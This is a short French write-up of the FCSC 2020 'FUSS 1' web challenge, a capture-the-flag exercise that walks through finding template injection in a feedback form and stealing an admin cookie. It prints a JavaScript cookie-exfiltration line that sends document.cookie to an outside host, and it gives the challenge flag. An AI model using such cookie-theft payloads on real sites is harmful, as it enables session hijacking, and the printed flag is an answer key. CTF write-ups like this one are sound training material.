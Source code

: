 
https://hackropole.fr/fr/challenges/web/fcsc2020-web-fuss-1/

## Description

On vous demande d’auditer cette solution de feedback dévéloppée par la société _Feedback Unlimited Secure Solutions_ (FUSS).

**Note :** Cette épreuve avait été proposée lors de la finale du FCSC 2020.

Cette épreuve a été découpée en trois parties :

- [FUSS 1](https://hackropole.fr/fr/challenges/web/fcsc2020-web-fuss-1/).
- [FUSS 2](https://hackropole.fr/fr/challenges/web/fcsc2020-web-fuss-2/).
- [FUSS 3](https://hackropole.fr/fr/challenges/web/fcsc2020-web-fuss-3/).

## Write Up

On arrive sur la page avec un feedback, on teste directement une SSTI :
![[Pasted image 20250206140853.png]]

Et on voit que ça marche :
![[Pasted image 20250206140905.png]]

On teste l'exploit en encodant 
```javascript
var i=new Image;i.src="http://192.168.0.28/?cookie="+document.cookie;
```
en JSFUCK.

On regarde sur le serveur et on reçoit bien le cookie :
![[Pasted image 20250206141029.png]]

Quand on se rend sur la page pour accéder au flag, on se retrouve bloqué. Je suppose donc de modifier le token par celui qu'on a réceptionné :
![[Pasted image 20250206141155.png]]

En ajoutant le token correspond, on arrive bien au résultat suivant :
![[Pasted image 20250206141318.png]]

Le flag est donc **FCSC{51165c5737a363413e769c27fe9f255383acacc137f87cca55d4f7314705fe82}**.
